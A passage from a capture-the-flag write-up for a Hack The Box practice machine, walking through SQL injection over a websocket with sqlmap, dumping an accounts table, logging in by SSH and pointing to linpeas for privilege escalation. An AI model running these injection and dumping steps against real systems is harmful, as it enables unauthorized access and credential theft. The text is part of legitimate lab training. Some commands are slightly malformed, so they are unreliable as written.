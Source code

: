 We got the websocket. And change this.
```
***
ws_server = "ws:// http://soc-player.soccer.htb:9091"
***
data = '{"id":"%s"}' % message
```
`And save [name_file.py]`

After change the file. We can run the file.

```
Terminal 1 -> python3 sqli.py
Terminal 2 -> sqlmap -u "http://localhost:8081/?id=[TICKET_NUMBER]" --batch –dbs
TICKET_NUMBER = Your ticket number on http://soc-player.soccer.htb/check
```
Wait for long time you can take a break
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```
We got the table of databases. And we can Show the database soccer_db.

`sqlmap -u "http://localhost:8081/?id=1" --risk 3 --level 5 --batch -D soccer_db -T accounts –dump`
```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | P******************2 | player   |
+------+-------------------+----------------------+----------+
```
BOOM!!!

We got the player user and password. We can use SSH to enter the machine.
```
ssh player@10.129.91.74
player@soccer:~$ whoami
player
player@soccer:~$ pwd
/home/player
player@soccer:~$ ls
user.txt
player@soccer:~$ cat user.txt
0***c
```
We got the User and we can search the root. Use [Linpeas](https://github.com/Cerbersec/scripts/blob/master/linux/linpeas.sh).
